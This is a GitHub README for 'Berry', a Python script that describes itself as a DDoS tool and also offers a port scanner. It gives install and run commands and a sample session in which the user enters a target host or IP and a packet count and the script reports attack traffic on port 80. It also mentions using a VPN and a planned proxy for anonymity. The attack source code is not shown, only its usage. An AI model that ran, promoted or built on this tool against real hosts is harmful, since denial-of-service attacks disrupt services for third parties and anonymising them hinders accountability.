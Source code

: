 ### Berry

[![Join the chat at https://gitter.im/Abrupt/berry](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/Abrupt/berry?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
Berry is a simple DDoS script  Currently it is under no proxy so provided you have a VPN on, DO NOT USE! Proxy will later be implemented for security and anonymity purposes.

### Size
N/A

### Amplified DoS Attack
N/A

### Version
Currently in beta: v0.0.2

### Install Requirements
```
root@strrrry:~/berry# pip install -r requirements.txt
```

### Run Berry
```
root@strrrry:~/berry/berry# python berry.py

	  ,/         \.  
	 ((           )) 
	  \`.       ,'   
	   )')     (`(	  
	 ,'`/       \,`. 
	(`-(         )-')
	  \-')     (`-/  
	  /`'       `'\  
	 (  _       _  ) 
	 | ( \     / ) | 
	 |  `.\   /,'  | 
	 |    `\ /'    | 
	 (             ) 
	  \           /  
	   \         /   
	    `.     ,'    
	      `-.-'      
	             [v0.0.2]

Select option:

	 [1] Berry DDoSer
	 [2] Berry Port Scanner (Currently Still in Beta)
	 [3] Berry Web

0) To Exit


berry > 
```

### Example
```
root@strrrry:~/berry/berry# python berry.py

	  ,/         \.  
	 ((           )) 
	  \`.       ,'   
	   )')     (`(	  
	 ,'`/       \,`. 
	(`-(         )-')
	  \-')     (`-/  
	  /`'       `'\  
	 (  _       _  ) 
	 | ( \     / ) | 
	 |  `.\   /,'  | 
	 |    `\ /'    | 
	 (             ) 
	  \           /  
	   \         /   
	    `.     ,'    
	      `-.-'      
	             [v0.0.2]

Select option:

	 [1] Berry DDoSer
	 [2] Berry Port Scanner (Currently Still in Beta)
	 [3] Berry Web

0) To Exit


berry > 1

NOTE - Enter IP or URL

[!] DDoS Mode Loading
Enter Host: www.target.com or http://www.target.com or 72.246.56.200
Number of Packets: 5
<--Loading DDoS Attack-->
[Wed Jul  8 18:38:22 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
root@strrrry:~/berry/berry#
```